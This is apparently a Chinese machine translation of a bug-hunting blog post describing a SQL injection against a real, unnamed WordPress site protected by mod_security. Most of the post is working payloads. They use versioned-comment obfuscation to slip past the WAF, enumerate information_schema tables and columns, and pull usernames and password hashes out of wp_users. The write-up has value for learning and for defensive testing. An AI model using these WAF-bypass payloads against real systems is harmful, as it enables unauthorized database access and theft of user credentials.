










# 有趣的 sql 注入—绕过 mod_security

> 原文：<https://infosecwriteups.com/fun-sql-injection-mod-security-bypass-644b54b0c445?source=collection_archive---------1----------------------->

在这篇文章中，我想向你展示一个我在测试一个网站时遇到的有点特殊的案例。

这是一个 sql 注入，我可以绕过“mod _ security”waf。当我开始 sql 注入测试时，我意识到网站正在使用 waf。

当我们使用一个简单的:

```
site/ejemplo?parameter=-1+union+selec+1,2,3,4,5,6,7+--+
```



现在，我不打算骗你，只是通过用注释对有效载荷进行编码，我就能够绕过 waf 过滤器。

```
site/ejemplo?parameter=-1+/*!50000union*/+/*!50000selec*/+1,2,3,4,5,6,7+--+
```



我们可以看到其中一个易受攻击的列是第四列。

但是像所有喜欢 sql 注入的人一样，我决定不像那样离开它，尝试其他方法、其他有效负载..经过多次测试和失败的混合载荷。

我最终尝试了这个:

```
AND mod(29,9)+div+[@a](http://twitter.com/a):=(concat(database(),"--","_Y000!_"))+UNION+DISTINCTROW+SELECT+1,2,3,[@a](http://twitter.com/a),5,6,7
```

这是怎么回事？

我们有:

```
"AND" = The AND operator returns a record if all conditions separated by AND are TRUE."mod(29,9)" = The mod function is to make a division between the values."div" = In sql the div function is used to divide"@a:=" = This serves as an alias to save an sql query inside, example: [@a](http://twitter.com/a):=(concat(database(),"--","_Y000!_"))"union" = works to join more than 2 sql commands"distinctrow" = helps us avoid duplicate results"select" = select what we want from the database"1,2,3,4,5,6,7" = number of columns in the database"AND mod(29,9)+div+[@a](http://twitter.com/a):=(concat(database(),"--","_Y000!_"))+UNION+DISTINCTROW+SELECT+1,2,3,[@a](http://twitter.com/a),5,6,7"
```

在没有任何编码的情况下注入这个有效负载，我们得到的结果如下:



记住，以前我们可以使用注释编码跳过过滤器:

```
-1+AND+mod(29,9)+div+[@a](http://twitter.com/a):=(/*!50000concat(database/**_**/(),"--","_Y000!_")*/)+/*!50000UNION*//**//*!50000DISTINCTROW*/+/*!50000SELECT*/+1,2,3,[@a](http://twitter.com/a),"_Y000!_",6,7--+
```


通过编码，我们再次跳过了 waf，但是有了新的有效载荷！



现在我要教一些我觉得有趣的东西。

正如我们在前面的图像中看到的，我们能够从数据库中提取信息，在这个例子中，在这个名称中，我们也有一些分隔符和我的昵称，这要感谢 concat 内部的注入

```
[@a](http://twitter.com/a):=(/*!50000concat(database/**_**/(),"--","_Y000!_")*/)
```

我们在“描述”部分有这个，但是在右边我们有下载文件的选项。

有趣的是，下载文件的选项也是易受攻击的，并清楚地向我们显示易受攻击的列是第 5 位。



趁着 bug，我们再多测试一点！

我们向负载添加了一些信息，以便能够从数据库表的名称中提取基本信息:

```
-1+AND+mod(29,9)+div+[@a](http://twitter.com/a):=(/*!50000concat(database/**_**/(),"--","_Y000!_")*/)+/*!50000UNION*//**//*!50000DISTINCTROW*/+/*!50000SELECT*/+1,2,3,[@a](http://twitter.com/a),table_name,6,7+/*!50000from*/+/*!50000information_schema.tables*/+--+
```



我们得到了以下结果:



你可以看到，之前我们只有一个文件要下载，在这种情况下，当向有效负载添加句子以提取表的名称时，会出现更多信息，但更仔细地看，出现的所有新信息都是有效负载提取的数据库信息，正如你在右侧的图像中可以看到的，我们有许多用于 HTML 中的表的 ，在每个表中我们都有数据库的表的名称。

再看一点…我意识到页面用了 wordpress …



它真的让我们无所遁形！

```
-1+AND+mod(29,9)+div+[@a](http://twitter.com/a):=(/*!50000concat(database/**_**/(),"--","_Y000!_")*/)+/*!50000UNION*//**//*!50000DISTINCTROW*/+/*!50000SELECT*/+1,2,3,[@a](http://twitter.com/a),column_name,6,7+/*!50000from*/+/*!50000information_schema.columns*/+/*!50000where*/+/*!50000table_name="wp_users"*/+--+
```



最后，我找到了用户名和密码信息

```
-1+AND+mod(29,9)+div+[@a](http://twitter.com/a):=(/*!50000concat(database/**_**/(),"--","_Y000!_")*/)+/*!50000UNION*//**//*!50000DISTINCTROW*/+/*!50000SELECT*/+1,2,3,[@a](http://twitter.com/a),/*!50000CoNcAt(user_nicename,"--",user_pass)*/,6,7+/*!50000from*/+/*!50000wp_users*/+--+
```



注意:不要到处留下未标记的站点，错误可能出现在最意想不到的地方

非常感谢你花时间阅读这篇文章。

**你觉得怎么样？你遇到过类似的错误吗？**